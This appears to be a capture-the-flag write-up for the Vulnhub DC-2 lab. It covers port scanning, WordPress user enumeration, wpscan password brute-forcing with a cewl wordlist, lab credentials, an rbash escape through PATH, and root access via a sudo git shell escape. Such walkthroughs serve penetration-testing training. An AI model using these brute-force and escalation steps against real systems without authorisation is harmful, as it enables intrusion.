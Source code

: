 ```yaml
---
title:     "Vulnhub - DC 2"
tags: [wordpress,easy,sudo,rbash]
categories: 
	- Vulnhub
---
```


![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/1.1.png)
Today, We are going to pwn DC 2 by DCAU7 from Vulnhub


## Description

>Much like DC-1, DC-2 is another purposely built vulnerable lab for the purpose of gaining experience in the world of penetration testing.
As with the original DC-1, it's designed with beginners in mind.
Linux skills and familiarity with the Linux command line are a must, as is some experience with basic penetration testing tools.
Just like with DC-1, there are five flags including the final flag.
And again, just like with DC-1, the flags are important for beginners, but not so important for those who have experience.
In short, the only flag that really counts, is the final flag.
For beginners, Google is your friend. Well, apart from all the privacy concerns etc etc.
I haven't explored all the ways to achieve root, as I scrapped the previous version I had been working on, and started completely fresh apart from the base OS install.

Download link : <https://www.vulnhub.com/entry/dc-2,311/>

Lets begin with our initial nmap scan

## Nmap Scan Results

```
PORT     STATE SERVICE
80/tcp   open  http
7744/tcp open  raqmon-pdu
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
```

```
PORT     STATE SERVICE VERSION
80/tcp   open  http    Apache httpd 2.4.10 ((Debian))
|_http-server-header: Apache/2.4.10 (Debian)
|_http-title: Did not follow redirect to http://dc-2/
|_https-redirect: ERROR: Script execution failed (use -d to debug)
7744/tcp open  ssh     OpenSSH 6.7p1 Debian 5+deb8u7 (protocol 2.0)
| ssh-hostkey: 
|   1024 52:51:7b:6e:70:a4:33:7a:d2:4b:e1:0b:5a:0f:9e:d7 (DSA)
|   2048 59:11:d8:af:38:51:8f:41:a7:44:b3:28:03:80:99:42 (RSA)
|   256 df:18:1d:74:26:ce:c1:4f:6f:2f:c1:26:54:31:51:91 (ECDSA)
|_  256 d9:38:5f:99:7c:0d:64:7e:1d:46:f6:e9:7c:c6:37:17 (ED25519)
MAC Address: 08:00:27:E2:25:6C (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.9
Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is HTTP port open, I gonna start my Gobuster

## Gobuster Results

```
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.0.2.4
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/dirb/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2019/11/23 12:21:05 Starting gobuster
===============================================================
/.hta (Status: 403)
/.htaccess (Status: 403)
/.htpasswd (Status: 403)
/server-status (Status: 403)
/wp-admin (Status: 301)
/wp-includes (Status: 301)
/wp-content (Status: 301)
/index.php (Status: 200)
===============================================================
2019/11/23 12:21:07 Finished
===============================================================
```


Its a Wordpress site 
``Flag 1``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/1.png)

It gives us a hint that our usual wordlist wont help us in bruteforcing the password instead cewl this page.

> cewl - custom word list generator

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/2.png)

I created the wordlist now

We know its a wordpress site so we can start our wpscan to enumerate users

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3-0.png)

> We have 3 users - admin,tom,jerry

## Bruteforcing the users

So lets start our bruteforce using the wordlist we created from cewl.

> wpscan --url http://dc-2/ -P pass.out -U admin
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/3.png)

> wpscan --url http://dc-2/ -P pass.out -U tom
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/4.png)

> wpscan --url http://dc-2/ -P pass.out -U jerry
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/5.png)

## Getting Shell

I logged in with jerry
Found ``Flag 2``

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/6.png)




There is no templates or plugins so i tried login with the creds in ssh which is running in the port 7744

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/7.png)

I cant login with jerry but its working with ``tom:parturient``

I found flag3 but cant view them it shows some error called ``-rbash``<br/> 
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/8.png)

While googling i came to know it because of problem in PATH variable.
So i copied my system PATH and export them, now its working perfectly!!

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/9.png)

>export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin

According to ``Flag 3`` I came to know we can su , so i su to ``jerry:adipiscing``

and got ``Flag 4``

## Privilege Escalation

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/10.png)

This shows we can run ``git`` without root password

>https://gtfobins.github.io/gtfobins/git/

```
sudo git -p help config
!/bin/sh
```

![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/11.png)
.<br/>
.<br/>
.<br/>
![](https://raw.githubusercontent.com/0xw0lf/0xw0lf.github.io/master/img/dc2/12.png)

I did according to ``GTFObins``

Got ROOT and Final Flag!!!



 